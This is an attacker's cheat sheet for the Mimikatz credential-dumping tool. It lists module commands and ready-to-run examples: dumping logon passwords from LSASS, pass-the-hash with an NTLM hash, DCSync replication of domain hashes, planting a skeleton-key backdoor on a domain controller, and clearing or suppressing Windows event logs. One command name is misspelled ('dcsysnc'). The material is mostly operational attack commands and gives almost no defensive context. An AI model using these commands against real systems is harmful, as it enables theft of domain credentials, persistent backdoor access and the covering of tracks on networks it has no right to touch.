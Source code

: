 # [Mimikatz](https://adsecurity.org/?page_id=1821)
[See also John the Ripper](john_the_ripper.html)

## Start and elevate privilege
    privilege::debug
    token::elevate

## sekurlsa

### Commands
> Module :        sekurlsa
> 
> Full name :     SekurLSA module
> 
> Description :   Some commands to enumerate credentials...
> 
    msv  -  Lists LM & NTLM credentials
    wdigest  -  Lists WDigest credentials
    kerberos  -  Lists Kerberos credentials
    tspkg  -  Lists TsPkg credentials
    livessp  -  Lists LiveSSP credentials
    ssp  -  Lists SSP credentials
    logonPasswords  -  Lists all available providers credentials
    process  -  Switch (or reinit) to LSASS process  context
    minidump  -  Switch (or reinit) to LSASS minidump context
    bootkey  -  Set the SecureKernel Boot Key to attempt to decrypt LSA Isolated credentials
    pth  -  Pass-the-hash
    krbtgt  -  krbtgt!
    dpapisystem  -  DPAPI_SYSTEM secret
    trust  -  Antisocial
    backupkeys  -  Preferred Backup Master keys
    tickets  -  List Kerberos tickets
    ekeys  -  List Kerberos Encryption Keys
    dpapi  -  List Cached MasterKeys
    credman  -  List Credentials Manager

### Example(s)
    sekurlsa::logonpasswords
    sekurlsa::pth /user:joe.random.user /domain:hacked.com /ntlm:a2739984965f79d7bae1c76511258b5c

## Process
### Commands
> Module :        process
> 
> Full name :     Process module
> 
	    list  -  List process
	    exports  -  List exports
	    imports  -  List imports
	    start  -  Start a process
	    stop  -  Terminate a process
	    suspend  -  Suspend a process
	    resume  -  Resume a process
	    run  -  Run!
	    runp -

### Example(s)
    process::list
    process::start notepad

## lsadump::
### Commands
> Module :        lsadump
>
> Full name :     LsaDump module
>
>           		 sam  -  Get the SysKey to decrypt SAM entries (from registry or hives)
>              secrets  -  Get the SysKey to decrypt SECRETS entries (from registry or hives)
>                cache  -  Get the SysKey to decrypt NL$KM then MSCache(v2) (from registry or hives)
>                  lsa  -  Ask LSA Server to retrieve SAM/AD entries (normal, patch on the fly or inject)
>                trust  -  Ask LSA Server to retrieve Trust Auth Information (normal or patch on the fly)
>           backupkeys
>               rpdata
>               dcsync  -  Ask a DC to synchronize an object
>             dcshadow  -  They told me I could be anything I wanted, so I became a domain controller
>              setntlm  -  Ask a server to set a new password/ntlm for one user
>           changentlm  -  Ask a server to set a new password/ntlm for one user
>              netsync  -  Ask a DC to send current and previous NTLM hash of DC/SRV/WKS
>             packages
>                  mbc
>    

### Example(s)
    token::elevate /domainadmin
    lsadump::dcsysnc /all /csv
    lsadump::dcsysnc /domain:hacked.com /user:Administrator


## misc::skeleton
N.B. MUST be done on the DC

At the DC:

    privilege::debug
    token::elevate
    misc::skeleton

At the client:

    net use Y: \\mydc\admin$ /user:hacker Password123!


## Other modules
### ts::
> Module :        ts
> 
> Full name :     Terminal Server module
> 
    	multirdp  -  [experimental] patch Terminal Server service to allow multiples users
    	sessions
    	remote

### net::
> Module :        net
> 
> Full name :
> 
>             user  -
>            group  -
>            alias  -
>          session  -
>         wsession  -
>              tod  -
>            stats  -
>            share  -
>       serverinfo  -
>            trust  -
>            deleg  -

### event::
> Module :        event
> 
> Full name :     Event module
> 
>             drop  -  [experimental] patch Events service to avoid new events
>            clear  -  Clear an event log